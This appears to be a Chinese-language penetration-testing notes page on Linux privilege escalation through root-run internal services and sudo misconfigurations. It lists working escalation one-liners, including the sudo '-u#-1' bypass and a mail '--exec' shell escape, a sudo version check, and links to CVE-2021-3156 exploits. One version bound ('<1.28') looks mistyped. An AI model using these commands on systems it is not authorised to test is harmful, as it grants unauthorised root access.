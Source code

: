 
## Internal/loopback service
+ root运行的内部服务，开发环境server、db之类，可利用漏洞提权
+ mysql run as root, udf


```
netstat -anlpp
netstat -ano
```

## Sudo
> sudo 提权原理
> sudo命令， 某个用户能够以另外某个身份、在哪些主机、执行哪些命令。通俗讲，给普通用户test具有root权限执行某命令（或所有命令），并且不需要root密码。

+ sudoers配置文件, /etc/sudoers, visudo 编辑
+ sudo privesc: mail
+ sudo privesc command, [gtfobins](https://gtfobins.github.io/)
+ sudo version exploit, [sudo exploit](https://github.com/rabiulhsantahin/ctf/blob/main/sudo-exploit.txt)
+ sudo version, <1.28
+ sudo 1.8.31, [Sudo-1.8.31-Root-Exploit](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)
+ sudo 1.8.23(centos, ubuntu) [CVE-2021-3156 python exploit](https://github.com/worawit/CVE-2021-3156)

```
User test may run the following commands on ubuntu:
(ALL : ALL) ALL
```
> root表示用户名
> 第一个 ALL 指示允许从任何终端、机器访问sudo
> 第二个 (ALL)指示sudo命令被允许以任何用户身份执行
> 第三个 ALL 表示所有命令都可以作为root执行
sudo提权参考：https://pure.security/how-i-got-root-with-sudo/

```
# sudu 切换user
sudo -u user bash -i

sudo -l

# 切换root
sudo su

# sudo verion 
searchsploit sudo
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"

## <1.28
sudo -u#-1 /bin/bash

## 1.8.31
## https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit
## https://github.com/blasty/CVE-2021-3156

# sudo mail
sudo /usr/bin/mail --exec='!/bin/bash'

```
